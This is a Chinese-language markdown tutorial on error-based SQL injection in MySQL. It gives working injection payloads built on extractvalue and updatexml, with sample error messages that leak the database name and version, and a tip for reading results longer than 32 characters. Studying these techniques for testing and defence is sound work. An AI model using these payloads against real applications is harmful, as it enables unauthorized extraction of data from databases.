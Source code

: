 # 错误注入

## 一、原理

- 报错注入在没法用`union`联合查询时用，但前提还是不能过滤一些关键的函数。
- 报错注入就是利用了数据库的某些机制，人为地制造错误条件，使得查询结果能够出现在错误信息中。
- 对于INSERT和UPDATE语句同样可以使用报错注入的方式

## 二、Xpath语法错误

- 利用xpath语法错误来进行报错注入主要利用`extractvalue`和`updatexml`两个函数。

### 1.extractvalue函数

```
函数原型：extractvalue(xml_document,Xpath_string)
正常语法：extractvalue(xml_document,Xpath_string);
第一个参数：xml_document是string格式，为xml文档对象的名称
第二个参数：Xpath_string是xpath格式的字符串
作用：从目标xml中返回包含所查询值的字符串
```

- 第二个参数是要求符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里，因此可以利用。

  - pyload：`id='and(select extractvalue("anything",concat('~',(select语句))))`

    ```
    id='and(select extractvalue(1,concat('~',(select database()))))
    报错显示：1105 - XPATH syntax error: '~school'
    
    id='and(select extractvalue(1,concat(0x7e,@@version)))
    报错显示： 1105 - XPATH syntax error: '~8.0.36'
    ```

-  extractvalue()能查询字符串的最大长度为32，如果我们想要的结果超过32，就要用substring()函数截取或limit分页，一次查看最多32位

### 2.updatexml函数

```
函数原型：updatexml(xml_document,xpath_string,new_value)
正常语法：updatexml(xml_document,xpath_string,new_value)
第一个参数：xml_document是string格式，为xml文档对象的名称 第二个参数：xpath_string是xpath格式的字符串
第三个参数：new_value是string格式，替换查找到的负荷条件的数据 作用：改变文档中符合条件的节点的值
```

- 第二个参数跟extractvalue函数的第二个参数一样，因此也可以利用，且利用方式相同

  - payload：`id='and(select updatexml("anything",concat('~',(select语句())),"anything"))`

    ```
    'and(select updatexml(1,concat('~',(select database())),1))
    报错显示：1105 - XPATH syntax error: '~school'
    
    'and(select updatexml(1,concat(0x7e,version()),1))
    报错显示：1105 - XPATH syntax error: '~8.0.36'
    ```
